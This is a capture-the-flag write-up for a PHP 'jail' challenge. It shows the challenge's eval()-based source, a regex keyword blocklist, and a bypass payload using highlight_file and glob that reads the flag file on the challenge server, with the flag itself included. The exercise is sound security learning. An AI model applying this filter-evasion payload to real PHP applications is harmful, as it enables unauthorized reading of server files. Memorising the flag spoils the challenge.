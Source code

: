 # Eevee Jail - 4

This time we are given a PHP jail. I wasn't familiar with this stuff lmaooo

{% tabs %}
{% tab title="jail-4.php" %}
```php
<?php

echo "========================\n";
echo "=    Eevee's Jail 4    =\n";
echo "========================\n";

echo "[+] > ";
$var = trim(fgets(STDIN));

if($var == null) die("[?] Input needed to escape this prison\n");

function filter($var) {
        if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
} else {
        echo "[!] Restricted characters has been used";
}
echo "\n";
?>
```
{% endtab %}
{% endtabs %}

Again we have some blacklisted strings:

```php
if(preg_match('/(`|include|read|flag|open|exec|pass|system|\$)/i', $var))
```

later on our input, `$var` gets passed to `eval()`&#x20;

```php
eval($var);
```

I found a writeup from a similar challenge:

{% embed url="https://blog.dornea.nu/2016/06/20/ringzer0-ctf-jail-escaping-php/" %}

It uses the `highlight_file` function that is not blacklisted. It uses `glob` to search for the file and highlights it

```php
highlight_file(glob("*txt")[0]);
```

```
❯ nc 157.180.92.15 31318

========================
=    Eevee's Jail 4    =
========================
[+] > highlight_file(glob("*txt")[0]);  
<code><span style="color: #000000">
bbct{hmm..&nbsp;so&nbsp;unpopular&nbsp;php&nbsp;function&nbsp;i&nbsp;guess?}<br /></span>
</code>
```

Flag: `bbct{hmm.. so unpopular php function i guess?}`
